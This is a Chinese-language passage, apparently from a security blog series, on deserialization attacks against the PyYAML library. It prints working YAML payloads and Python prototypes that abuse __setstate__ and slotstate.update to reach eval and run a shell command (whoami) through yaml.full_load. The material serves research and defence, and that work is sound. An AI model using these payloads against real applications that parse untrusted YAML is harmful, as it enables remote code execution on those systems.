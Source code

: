 

结果：
[![img](https://rzx1szyykpugqc-1252075454.piccd.myqcloud.com/SecMap-unserialize-pyyaml/11e9e1a9-eb9c-4cbf-a5b7-b18feef4e286.png!blog#width-zoom7)](https://rzx1szyykpugqc-1252075454.piccd.myqcloud.com/SecMap-unserialize-pyyaml/11e9e1a9-eb9c-4cbf-a5b7-b18feef4e286.png!blog#width-zoom7)

`construct_python_object_apply` 中还对实例进行 setstate，即调用了 `__setstate__`，所以同样的思路，原型：

```
exp = type("exp", (list, ), {"__setstate__": eval})
exp.__setstate__("__import__('os').system('whoami')")

PY
```



YAML payload:

```
yaml.full_load("""
!!python/object/new:type
args:
  - exp
  - !!python/tuple []
  - {"__setstate__": !!python/name:eval }
state: "__import__('os').system('whoami')"
""")

PY
```



这里的 `type` 也可以用 `staticmethod` 来替换。例如，在 `set_python_instance_state` 中，还有个调用 `slotstate.update` 的逻辑，那么只要将 `slotstate.update` 置为 `eval`，`state` 就是 RCE 的 payload。原型：

```
exp = staticmethod([0])
exp.__dict__.update(
    {"update": eval, "items": list}
)
exp_raise = str()
# 由于 str 没有 __dict__ 方法，所以在 PyYAML 解析时会触发下面调用

exp.update("__import__('os').system('whoami')")

PY
```

YAML payload:

```
yaml.full_load("""
!!python/object/new:str
    args: []
    # 通过 state 触发调用
    state: !!python/tuple
      - "__import__('os').system('whoami')"
      # 下面构造 exp
      - !!python/object/new:staticmethod
        args: []
        state: 
          update: !!python/name:eval
          items: !!python/name:list  # 不设置这个也可以，会报错但也已经执行成功
""")

PY
```
